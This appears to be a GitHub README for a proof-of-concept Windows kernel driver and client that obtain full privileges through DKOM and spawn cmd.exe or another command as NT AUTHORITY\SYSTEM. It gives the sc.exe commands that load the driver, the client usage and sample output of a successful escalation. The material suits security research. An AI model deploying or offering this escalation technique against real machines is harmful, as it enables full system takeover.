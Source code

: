 # GetFullPrivs

PoCs to get full privileges with DKOM method.

## Installation

```
PS C:\> sc.exe create GetFullPrivs type= kernel binpath= C:\Dev\GetFullPrivsDrv_x64.sys
PS C:\> sc.exe start GetFullPrivs
```

## Client Program Usage

Client program performs `NT AUTHORITY\SYSTEM` process execution.

```
PS C:\Dev> .\GetFullPrivsClient.exe -h

GetFullPrivsClient - Client for GetFullPrivsDrv.

Usage: GetFullPrivsClient.exe [Options]

        -h, --help    : Displays this help message.
        -c, --command : Specifies command to execute. Default is "cmd.exe".
```

Command to execute can be specified with `-c` option.
If you do not specify any command, this PoC try to execute `cmd.exe` as a full privileged process:

```
PS C:\Dev> .\GetFullPrivsClient.exe

[>] Sending a query to \??\GetFullPrivs.
[+] Got a handle to \??\GetFullPrivs (Handle = 0x2D8)
[+] Got full privileges.
[>] Trying to create new process.
[+] New process is executed successfully.
    [*] Process ID : 8512
    [*] Thread ID  : 3200
[*] Done.
```

![](./figures/GetFullPrivs.png)